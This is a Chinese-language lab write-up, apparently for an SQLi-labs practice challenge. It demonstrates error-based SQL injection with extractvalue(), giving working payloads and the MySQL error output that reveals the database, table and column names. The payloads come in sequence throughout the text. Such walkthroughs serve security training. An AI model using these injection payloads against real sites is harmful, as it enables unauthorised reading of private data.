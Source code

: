 `?id=1'`有报错

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

**用'闭合**
`?id=1' order by 4--+`提示第4列不存在
`?id=1' order by 3--+` 发现没有了用户和ID的回显，只有”You are ing..",

`?id=1' union select 1,2,3--+`也只显示”You are ing.."，没有显示回显点。
`?id=1'and 1=2--+`没有回显条件为假的错误。

条件正确有回显，条件错误没有回显；
有报错回显， 采取报错注入的方法， <a name="QcX1G"></a>

报错注入

**报错注入**的运用前提是需要有数据库错误的显示

```bash
print_r(mysql_error());是能够使用报错的前提。
```

报错常用的三个函数，**extractvalue()**,**updatexml(),floor()**,还有**exp() **

<a name="tKncj"></a>

用extractvalue函数进行报错注入

extractvalue(1,1) <a name="FbE6V"></a>

## 查看数据库名称

`?id=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+`
或
`?id=1' or extractvalue(1,concat(0x7e,(select database()),0x7e))--+`

> 显示XPATH syntax error: '~security~'
> XPATH语法错误：“~security~”

<a name="FheLm"></a>

## 查看数据表名称

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))--+`

> 显示XPATH syntax error: '~emails,referers,uagents,users~'
> XPATH语法错误：'~emails，referers，uagents，users~'

## 查看字段名称

`?id=1' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))--+`

> 显示XPATH syntax error: '**~user\_id,first\_name,last\_name,us**'
> group\_concat()函数**可能放不下所有内容**，可以采用**截取**或者**limit函数**读取
